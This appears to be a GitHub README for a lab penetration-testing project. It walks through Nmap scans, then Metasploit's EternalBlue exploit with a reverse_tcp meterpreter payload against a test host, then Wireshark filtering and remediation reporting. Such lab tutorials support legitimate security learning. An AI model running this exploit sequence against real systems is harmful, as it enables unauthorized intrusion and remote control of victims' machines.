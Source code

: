 # Network Penetration Testing & Ethical Hacking

## ⚠️ Disclaimer
This project is intended for educational and security research purposes only. Ensure you have proper authorization before conducting penetration testing.

## Project Overview
- **Technology Used:** Nmap, Metasploit, Wireshark, Kali Linux
- **Purpose:** Conduct a penetration test on a network to identify vulnerabilities and remediate them.
- **Output:** A security assessment report detailing vulnerabilities and mitigation steps.

## Prerequisites
- Basic understanding of networking and cybersecurity
- A dedicated testing environment (e.g., VirtualBox, VMware with Kali Linux)
- Administrative access to configure test systems

## Setup and Implementation
### Step 1: Set Up a Testing Environment
- Deploy **Kali Linux** as the attacking machine.
- Set up a vulnerable test environment using **Metasploitable2** or **DVWA** (Damn Vulnerable Web Application).

### Step 2: Network Scanning with Nmap
- Identify active hosts and open ports in the network.
```sh
nmap -sS -A -T4 192.168.1.0/24
```
- Scan for vulnerabilities using NSE scripts.
```sh
nmap --script vuln 192.168.1.100
```

### Step 3: Exploitation with Metasploit
- Launch **Metasploit Framework**.
```sh
msfconsole
```
- Search for exploits related to a detected vulnerability.
```sh
search exploit windows/smb
```
- Select and configure the exploit module.
```sh
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.100
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

### Step 4: Traffic Analysis with Wireshark
- Capture network traffic and analyze packets for suspicious activities.
- Filter traffic based on specific protocols (e.g., HTTP, SMB, FTP).
```sh
ip.addr == 192.168.1.100 && tcp.port == 80
```

### Step 5: Report Findings & Mitigation Strategies
- Document identified vulnerabilities, exploits used, and attack vectors.
- Provide recommendations such as **patch management, network segmentation, and access controls**.

## Key Features
- **Active reconnaissance and network scanning**
- **Exploitation of vulnerabilities using ethical hacking tools**
- **Traffic analysis and detection of security weaknesses**
- **Comprehensive security reporting and remediation steps**

## Future Enhancements
- Automate scanning with **Python and Nmap scripts**
- Integrate with **SIEM for real-time attack detection**
- Implement **Zero Trust security measures**

## Conclusion
Network penetration testing helps identify and mitigate security vulnerabilities before attackers exploit them. Using **Nmap, Metasploit, and Wireshark**, organizations can enhance their security posture and protect sensitive data.

## References
- [Kali Linux Documentation](https://www.kali.org/docs/)
- [Metasploit Framework Guide](https://docs.metasploit.com/)
- [Nmap Scripting Engine (NSE)](https://nmap.org/book/nse.html)
- [Wireshark User Guide](https://www.wireshark.org/docs/)

